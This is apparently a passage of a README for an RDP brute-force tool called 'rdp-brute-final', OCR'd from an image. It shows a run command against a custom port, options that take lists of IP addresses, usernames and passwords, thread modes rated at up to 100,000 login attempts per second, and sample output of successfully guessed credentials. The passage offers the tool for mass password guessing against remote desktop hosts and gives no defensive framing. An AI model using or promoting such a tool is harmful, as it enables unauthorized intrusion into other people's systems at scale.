 ### **Custom RDP Port**
```bash
./rdp-brute-final -i ips.txt -u users.txt -p passwords.txt -o results.txt -P 3390
```

---

## 📊 **Command Line Options**

```
Required:
  -i <file>     IP addresses file (ips.txt)
  -u <file>     Usernames file (users.txt)
  -p <file>     Passwords file (passwords.txt)
  -o <file>     Output results file

Optional:
  -t <num>      Threads (default: 200, max: 1000)
  -P <port>     RDP port (default: 3389)
  -f            Fast mode (minimal output)
  -a            Aggressive mode (500 threads)
  -U            Ultra mode (800 threads, maximum speed)
  -v            Verbose output (show failed attempts)
  -h            Show help
```

---

## 📈 **Performance Metrics**

### **Expected Throughput**
| Mode | Threads | Expected Rate | CPU Usage | Memory |
|------|---------|---------------|-----------|--------|
| Standard | 200 | 15,000-30,000/sec | 60-80% | ~50MB |
| Aggressive | 500 | 30,000-60,000/sec | 80-95% | ~100MB |
| Ultra | 800 | 50,000-100,000/sec | 95-100% | ~150MB |

### **Performance Factors**
- **Network Latency**: Lower latency = higher rates
- **Target Response**: Responsive targets = better performance
- **System Resources**: More CPU cores = better scaling
- **Thread Count**: Optimal is usually 2-4x CPU cores

---

## 🔍 **Output Format**

### **Successful Authentication**
```
[SUCCESS] 192.168.1.10:3389 - admin:password123 - NLA (0.234s)
[SUCCESS] 10.0.0.15:3389 - administrator:Password123 - SSL (0.156s)
```
